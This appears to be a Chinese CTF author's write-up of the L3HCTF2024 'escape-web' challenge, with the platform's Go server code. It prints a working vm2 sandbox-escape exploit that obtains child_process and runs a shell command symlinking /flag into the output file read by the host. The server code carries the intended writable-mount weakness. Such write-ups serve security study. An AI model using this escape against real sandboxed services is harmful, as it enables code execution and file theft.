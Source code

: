 ```yaml
---
title: (L3HCTF2024)escape-web
date: 2024-02-05 00:32:00
categories: CTF
tags: [CTF]
url: /l3hctf2024-escape-web/
---
```


### 做题

某次测试网上在线运行代码的容器发现的好玩的玩意儿。

搓了一个平台，每次提交开一个新的容器，然后把容器的输出返回给用户。

容器里面是个 vm2 逃逸，非常之简单，详见[poc](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9)。
但是感觉就套个这个太没意思，接下来要读容器外的 flag 文件就被拷打了。

实际上容器是把用户上传的代码写在 /tmp，然后挂载到容器里面的 /app，做题的时候可以看到 /app 下面有 output.txt 和 error.txt，这时候把 output.txt 或者 error.txt 写成软链接到 /flag 就行了。

最后可用的 exp 如下：
```javascript
async function fn() {
  (function stack() {
    new Error().stack;
    stack();
  })();
}
p = fn();
p.constructor = {
  [Symbol.species]: class FakePromise {
    constructor(executor) {
      executor(
        (x) => x,
        (err) => {
          return console.log(
            err.constructor
              .constructor("return process")()
              .mainModule.require("child_process")
              .execSync("ln -sf /flag /app/output.txt")
              .toString()
          );
        }
      );
    }
  },
};
p.then();
```

### 出题

要出这个 docker in docker 实在是太麻烦了！平台上的容器肯定不能跑特权容器，里面直接起不来 docker。

本来搞了一套 docker in qemu in docker 的方案，但是 qemu 没有 kvm 实在是慢到令人发指（请求一次得 10s 才能返回）。

没办法，最后没部署到平台上，在自己不用的机子上直接裸着跑，真逃出去也不管了。

一开始 nohup 跑的没写日志，结果上线一会儿就炸了，还好有个环境一样的备用机器，赶紧切域名解析过去，最后也不知道咋崩的。

后来大半夜又崩了一次，被外国友人拷打了，还好还没睡，又切解析到备用机。

这次被搞烦了，直接写到 systemd service 里面自动重启，懒得运维了。

部署的小鸡一台是阿里云 300 代金券薅的轻量 hk（2h1g），一台是甲骨文春川薅的 arm（4h24g）。QPS 上线之前压过，都是 10 左右，也不知道是不是 OOM 崩的。

最后把平台代码附上：
```golang
package main

import (
	"context"
	"embed"
	_ "embed"
	"fmt"
	"io/ioutil"
	"net/http"
	"os"
	"os/exec"
	"time"

	"github.com/docker/docker/api/types/container"
	"github.com/docker/docker/api/types/mount"
	"github.com/docker/docker/client"
	"github.com/gin-gonic/gin"
	"github.com/google/uuid"
)

func WriteFile(path string, data []byte) error {
	err := ioutil.WriteFile(path, data, 0644)
	return err
}

func ReadFile(path string) (string, error) {
	data, err := ioutil.ReadFile(path)
	return string(data), err
}

func RunCommand(command string) (string, error) {
	cmd := exec.Command("sh", "-c", command)
	out, err := cmd.Output()
	return string(out), err
}

//go:embed app
var app_dir embed.FS

func TryExtractApp() {
	_, err := os.Stat("app")
	if err != nil {
		if os.IsNotExist(err) {
			fmt.Println("app dir not exists, extract app dir from embed fs")
			err := os.Mkdir("app", 0755)
			if err != nil {
				panic(err)
			}
			entries, err := app_dir.ReadDir("app")
			if err != nil {
				panic(err)
			}
			for _, entry := range entries {
				file_path := "app/" + entry.Name()
				fmt.Println("extracting", file_path)
				if entry.IsDir() {
					continue
				}
				file, err := app_dir.ReadFile("app/" + entry.Name())
				if err != nil {
					continue
				}
				WriteFile(file_path, file)
			}
		} else {
			panic(err)
		}
	} else {
		fmt.Println("app dir exists")
	}
}

//go:embed static/index.html
var indexHTML string

func main() {
	TryExtractApp()
	gin.SetMode(gin.ReleaseMode)
	r := gin.Default()
	r.GET("/", func(c *gin.Context) {
		c.Header("Content-Type", "text/html")
		c.String(http.StatusOK, indexHTML)
	})
	r.POST("/run", func(c *gin.Context) {
		uuid := uuid.New().String()
		// cp -r app to /tmp/uuid
		tmpPath := "/tmp/" + uuid
		RunCommand("cp -r app " + tmpPath)
		defer RunCommand("rm -rf " + tmpPath)
		code, err := c.GetRawData()
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
			return
		}

		err = WriteFile(tmpPath+"/code.js", code)
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
			return
		}

		ctx := context.Background()

		cl, err := client.NewClientWithOpts(client.FromEnv)
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
			return
		}

		cl.NegotiateAPIVersion(ctx)

		resp, err := cl.ContainerCreate(ctx, &container.Config{
			Image:           "node:lts-alpine",
			Cmd:             []string{"/bin/sh", "-c", "node /app/dist.js > /app/output.txt 2> /app/error.txt"},
			NetworkDisabled: true,
		},
			&container.HostConfig{
				AutoRemove: true,
				Mounts: []mount.Mount{
					{
						Type:     mount.TypeBind,
						Source:   tmpPath,
						Target:   "/app",
						ReadOnly: false,
					},
				},
				Resources: container.Resources{
					Memory:    1024 * 1024 * 64,
					CPUPeriod: 100000,
					CPUQuota:  25000,
				},
			}, nil, nil, uuid)

		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
			return
		}

		err = cl.ContainerStart(ctx, uuid, container.StartOptions{})
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
			return
		}

		statusCh, errCh := cl.ContainerWait(ctx, resp.ID, container.WaitConditionNotRunning)
		select {
		case err := <-errCh:
			if err != nil {
				c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
				return
			}
		case <-statusCh:
		case <-time.After(10 * time.Second):
			cl.ContainerKill(ctx, uuid, "KILL")
		}

		output_content, _ := ReadFile("/tmp/" + uuid + "/output.txt")
		error_content, _ := ReadFile("/tmp/" + uuid + "/error.txt")
		c.JSON(http.StatusOK, gin.H{"output": output_content, "error": error_content})
	})
	r.Run(":8080")
}
```